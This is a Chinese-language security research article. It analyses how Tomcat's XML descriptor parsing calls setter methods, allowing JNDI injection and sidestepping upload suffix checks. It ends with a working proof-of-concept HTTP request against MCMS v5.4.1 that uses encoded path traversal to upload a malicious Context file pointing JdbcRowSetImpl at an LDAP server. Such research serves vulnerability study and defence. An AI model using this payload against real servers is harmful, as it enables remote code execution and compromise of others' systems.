# 绕过后缀校验：利用 Tomcat XML 配置机制实现 JNDI 注入-先知社区

> **来源**: https://xz.aliyun.com/news/19350  
> **文章ID**: 19350

---

在日常漏洞挖掘中，对于任意文件上传漏洞往往会对后缀进行严格的校验，这让我们很难获取的美味的shell，但是在tomcat环境下，它有一套解析xml文件的流程，会对指定目录下的xml文件里面的特殊标签进行setter方法的调用，结合fastjson及jndi，又给了我们许多的操作空间，下面来分析一下

# 环境搭建

导入依赖

```
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>tomcat-catalina</artifactId>
    <version>8.5.0</version>
</dependency>
```

# xml文件扫描

主文件在Bootstrap.class

启动的时候会调用自己的load方法



在load方法里面又会反射调用Catalina类的load方法



首先创建了一个Digester



然后读取conf目录下的server.xml文件的内容



然后对文件内容进行一个处理



然后一直跟栈到Digester#startElement方法中，这里对server.xml文件的Listener字段做了一个处理



跟进一下begin方法

这里会获取Linster字段下className指定的类，并且实例化



这里就获取到了我server.xml文件里面className指定的类





在实例化之后，将会调用SetPropertiesRule#begin进行第二次begin方法的调用，进行属性的赋值，然后又通过调用IntrospectionUtils#setProperty方法对获取到的属性值进行赋值



然后反射调用实例化类的setter方法



所以如果我在server.xml加这样一段标签，是不是就会和fastjson一样，调用指定类的setter方法，进行jndi注入呢





最终的调用栈

```
setProperty:176, IntrospectionUtils (org.apache.tomcat.util)
setProperty:47, IntrospectionUtils (org.apache.tomcat.util)
begin:72, SetPropertiesRule (org.apache.tomcat.util.digester)
startElement:1188, Digester (org.apache.tomcat.util.digester)
startElement:509, AbstractSAXParser (com.sun.org.apache.xerces.internal.parsers)
emptyElement:182, AbstractXMLDocumentParser (com.sun.org.apache.xerces.internal.parsers)
scanStartElement:1344, XMLDocumentFragmentScannerImpl (com.sun.org.apache.xerces.internal.impl)
next:2787, XMLDocumentFragmentScannerImpl$FragmentContentDriver (com.sun.org.apache.xerces.internal.impl)
next:606, XMLDocumentScannerImpl (com.sun.org.apache.xerces.internal.impl)
scanDocument:510, XMLDocumentFragmentScannerImpl (com.sun.org.apache.xerces.internal.impl)
parse:848, XML11Configuration (com.sun.org.apache.xerces.internal.parsers)
parse:777, XML11Configuration (com.sun.org.apache.xerces.internal.parsers)
parse:141, XMLParser (com.sun.org.apache.xerces.internal.parsers)
parse:1213, AbstractSAXParser (com.sun.org.apache.xerces.internal.parsers)
parse:643, SAXParserImpl$JAXPSAXParser (com.sun.org.apache.xerces.internal.jaxp)
parse:1461, Digester (org.apache.tomcat.util.digester)
load:578, Catalina (org.apache.catalina.startup)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
load:311, Bootstrap (org.apache.catalina.startup)
main:494, Bootstrap (org.apache.catalina.startup)
```

# 启动

扫描完xml文件以后就启动了



这里看下Host的启动方法



跟进一下有三处方法调用



先看deployDescriptors，这里会conf/Catalina/localhost目录下的xml文件



然后构建一个DeployDescriptor添加到es线程池中去，多线程执行DeployDescriptor#run方法



HostConfig#deployDescriptor方法，也会将这个目录下的XML文件通过调用Digester@parse进行解析，具体的解析步骤与前面的web.xml扫描类似



只不过这里的字段是Manage了



所以可以构造



最终调用栈：

```
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect) [2]
invoke:498, Method (java.lang.reflect)
setProperty:70, IntrospectionUtils (org.apache.tomcat.util)
setProperty:47, IntrospectionUtils (org.apache.tomcat.util)
begin:72, SetPropertiesRule (org.apache.tomcat.util.digester)
startElement:1188, Digester (org.apache.tomcat.util.digester)
startElement:510, AbstractSAXParser (com.sun.org.apache.xerces.internal.parsers)
scanStartElement:1361, XMLDocumentFragmentScannerImpl (com.sun.org.apache.xerces.internal.impl)
next:2786, XMLDocumentFragmentScannerImpl$FragmentContentDriver (com.sun.org.apache.xerces.internal.impl)
next:605, XMLDocumentScannerImpl (com.sun.org.apache.xerces.internal.impl)
scanDocument:507, XMLDocumentFragmentScannerImpl (com.sun.org.apache.xerces.internal.impl)
parse:867, XML11Configuration (com.sun.org.apache.xerces.internal.parsers)
parse:796, XML11Configuration (com.sun.org.apache.xerces.internal.parsers)
parse:142, XMLParser (com.sun.org.apache.xerces.internal.parsers)
parse:1216, AbstractSAXParser (com.sun.org.apache.xerces.internal.parsers)
parse:644, SAXParserImpl$JAXPSAXParser (com.sun.org.apache.xerces.internal.jaxp)
parse:1480, Digester (org.apache.tomcat.util.digester)
execute:170, MbeansDescriptorsDigesterSource (org.apache.tomcat.util.modeler.modules)
loadDescriptors:149, MbeansDescriptorsDigesterSource (org.apache.tomcat.util.modeler.modules)
load:590, Registry (org.apache.tomcat.util.modeler)
loadDescriptors:669, Registry (org.apache.tomcat.util.modeler)
createRegistry:546, MBeanUtils (org.apache.catalina.mbeans)
<clinit>:71, MBeanUtils (org.apache.catalina.mbeans)
<clinit>:66, GlobalResourcesLifecycleListener (org.apache.catalina.mbeans)
newInstance0:-1, NativeConstructorAccessorImpl (sun.reflect)
newInstance:62, NativeConstructorAccessorImpl (sun.reflect)
newInstance:45, DelegatingConstructorAccessorImpl (sun.reflect)
newInstance:423, Constructor (java.lang.reflect)
newInstance:442, Class (java.lang)
begin:117, ObjectCreateRule (org.apache.tomcat.util.digester)
startElement:1188, Digester (org.apache.tomcat.util.digester)
startElement:510, AbstractSAXParser (com.sun.org.apache.xerces.internal.parsers)
emptyElement:183, AbstractXMLDocumentParser (com.sun.org.apache.xerces.internal.parsers)
scanStartElement:1341, XMLDocumentFragmentScannerImpl (com.sun.org.apache.xerces.internal.impl)
next:2786, XMLDocumentFragmentScannerImpl$FragmentContentDriver (com.sun.org.apache.xerces.internal.impl)
next:605, XMLDocumentScannerImpl (com.sun.org.apache.xerces.internal.impl)
scanDocument:507, XMLDocumentFragmentScannerImpl (com.sun.org.apache.xerces.internal.impl)
parse:867, XML11Configuration (com.sun.org.apache.xerces.internal.parsers)
parse:796, XML11Configuration (com.sun.org.apache.xerces.internal.parsers)
parse:142, XMLParser (com.sun.org.apache.xerces.internal.parsers)
parse:1216, AbstractSAXParser (com.sun.org.apache.xerces.internal.parsers)
parse:644, SAXParserImpl$JAXPSAXParser (com.sun.org.apache.xerces.internal.jaxp)
parse:1461, Digester (org.apache.tomcat.util.digester)
load:578, Catalina (org.apache.catalina.startup)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect) [1]
invoke:498, Method (java.lang.reflect)
load:311, Bootstrap (org.apache.catalina.startup)
main:494, Bootstrap (org.apache.catalina.startup)
```

接下来看deployWARs方法

看名字就可以猜出来这个函数方法是对WAR包进行部署，webapps目录下



看DeployWar#run方法



和上个方法一样的



这里会对WAR包中的META-INF/context.xml文件调用Digester#parse进行解析





总而言之只要存在任意文件上传漏洞及目录穿越传到指定目录，就可以执行jndi注入

# 自动触发

由于 启动过程中会有一个后台线程，每十秒就会启动一次



container为StandarHost时







一直跟到这儿，由于上面已经满足if条件了，直接调用check方法



而check函数里面又有deployApps方法



同样存在3个方法的调用



这样一来我们无需重启tomcat也可以触发xml文件解析，给我们提供了更多的操作空间

# 实战

MCMS v5.4.1前台任意文件上传漏洞

漏洞文件webapp\static\plugins\ueditor\1.4.3.3\jsp\lib\ueditor-1.1.2.jar!\com\baidu\ueditor\ActionEnter.class

```
public class ActionEnter {
    private HttpServletRequest request;
    private String rootPath;
    private String contextPath;
    private String actionType;
    private ConfigManager configManager;

    public ActionEnter(HttpServletRequest request, String rootPath) {
        this.request = request;
        this.rootPath = rootPath;
        this.actionType = request.getParameter("action");
        this.contextPath = request.getContextPath();
        // request.getRequestURI() 也会被传入 ConfigManager
        this.configManager = ConfigManager.getInstance(rootPath, contextPath, request.getRequestURI());
    }

    public String invoke(){
        // ... 
        Map<String, Object> conf = configManager.getConfig(actionTypeAsInt);
        Uploader uploader = new Uploader(request, conf);
        State state = uploader.doExec();
        return state.toJSONString();
    }
}
```

ActionEnter 只是把 request 的参数扔给 ConfigManager，没有对 jsonConfig 做额外校验,跟进ConfigManager.getConfig方法

```
public Map<String,Object> getConfig(int type) {
    Map<String,Object> conf = new HashMap<>();
    // ... 根据类型设置 maxSize, allowFiles, fieldName ...
    String savePath = jsonConfig.getString("filePathFormat");  // <--- 直接取出
    conf.put("savePath", savePath);  // <-- 最终会被 Uploader 读取并用于拼路径
    conf.put("rootPath", this.rootPath);
    return conf;
}
```

savePath 直接取自 jsonConfig 并返回给 Uploader，savePath 未被限制 ，可以目录穿越

```
public static State save(HttpServletRequest request, Map<String,Object> conf) {
    // 解析 multipart，找到第一个 file item
    FileItemStream item = ...;
    if(item == null) {
        return new BaseState(false, 7); // no file
    }

    String savePath = (String) conf.get("savePath");   // <-- 来自 ConfigManager.jsonConfig
    String originFileName = item.getName();            // <--- 可控（上传时附带）
    String suffix = FileType.getSuffixByFilename(originFileName);

    if (!validType(suffix, (String[]) conf.get("allowFiles"))) {
        return new BaseState(false, 8); // type not allowed
    }

    savePath = PathFormat.parse(savePath, originFileName);  // <-- 解析模板（但不移除 ../）
    String rootPath = (String) conf.get("rootPath");
    String physicalPath = rootPath + savePath;  // <-- 若 savePath 含 ../ 则会超出 rootPath

    InputStream is = item.openStream();
    State state = StorageManager.saveFileByInputStream(is, physicalPath, maxSize);
    // post-process: set url/type/original
    return state;
}
```

但是会对上传文件后缀做限制

```
/* 上传文件配置 */
    "fileActionName": "uploadfile", /* controller里,执行上传视频的action名称 */
    "fileFieldName": "upfile", /* 提交的文件表单名称 */
    "filePathFormat": "/ueditor/jsp/upload/file/{yyyy}{mm}{dd}/{time}{rand:6}", /* 上传保存路径,可以自定义保存路径和文件名格式 */
    "fileUrlPrefix": "", /* 文件访问路径前缀 */
    "fileMaxSize": 51200000, /* 上传大小限制，单位B，默认50MB */
    "fileAllowFiles": [
        ".png", ".jpg", ".jpeg", ".gif", ".bmp",
        ".flv", ".swf", ".mkv", ".avi", ".rm", ".rmvb", ".mpeg", ".mpg",
        ".ogg", ".ogv", ".mov", ".wmv", ".mp4", ".webm", ".mp3", ".wav", ".mid",
        ".rar", ".zip", ".tar", ".gz", ".7z", ".bz2", ".cab", ".iso",
        ".doc", ".docx", ".xls", ".xlsx", ".ppt", ".pptx", ".pdf", ".txt", ".md", ".xml"
    ], /* 上传文件格式显示 */
```

POC

```
POST /static/plugins/ueditor/1.4.3.3/jsp/editor.do?jsonConfig=%7b%66%69%6c%65%50%61%74%68%46%6f%72%6d%61%74%3a%27%2f%7b%2e%7d%2e%2f%7b%2e%7d%2e%2f%7b%2e%7d%2e%2f%2f%63%6f%6e%66%2f%43%61%74%61%6c%69%6e%61%2f%6c%6f%63%61%6c%68%6f%73%74%2f%31%27%7d&action=uploadfile HTTP/1.1
Host: 127.0.0.1:8080
Content-Type: multipart/form-data;boundary=------------------------AuIwirENRLZwUJSzValDLkEbUhZbrxlJuvZrhFXA
Content-Length: 429

--------------------------AuIwirENRLZwUJSzValDLkEbUhZbrxlJuvZrhFXA
Content-Disposition: form-data; name="upload"; filename="2.xml"

<?xml version='1.0' encoding='utf-8'?>
<Context>
    <Manager className="com.sun.rowset.JdbcRowSetImpl"
             dataSourceName="ldap://127.0.0.1:8085/SbfXuVhz"
             autoCommit="true"></Manager>
</Context>
--------------------------AuIwirENRLZwUJSzValDLkEbUhZbrxlJuvZrhFXA--
```




